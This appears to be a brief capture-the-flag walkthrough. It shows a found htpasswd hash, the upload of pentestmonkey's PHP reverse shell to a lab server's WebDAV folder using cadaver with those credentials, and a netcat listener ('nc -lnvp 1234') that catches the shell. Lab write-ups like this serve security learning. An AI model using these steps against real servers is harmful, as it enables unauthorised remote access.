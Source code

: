 1) In this directory I find the passwd:
```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

2) In this site "https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php" I copy the php code and I insert in a nano file
```
┌──(kali㉿kali)-[~]
└─$ nano php-reverse-shell.php
```

3) I link me with the target site with a cadaver tool and I put the reverse shell:
```
┌──(kali㉿kali)-[~]
└─$ cadaver http://10.10.255.212/webdav
Authentication required for webdav on server `10.10.255.212':
Username: wampp
Password: 
dav:/webdav/> put php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5488 bytes succeeded.
dav:/webdav/> 
```

4) After I reupload the page of the target site, and I find the file that I have upload. in local machine I set up the listener port:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
```

Note: The port must be the same of php-reverse-shell.php file, inside the php-reverse-shell.php I must change the <IP ADDRESS>, I find the my Ip Address with ifconfig command


5) In the target site I click the php-reverse-shell.php file, and I get the reverse shell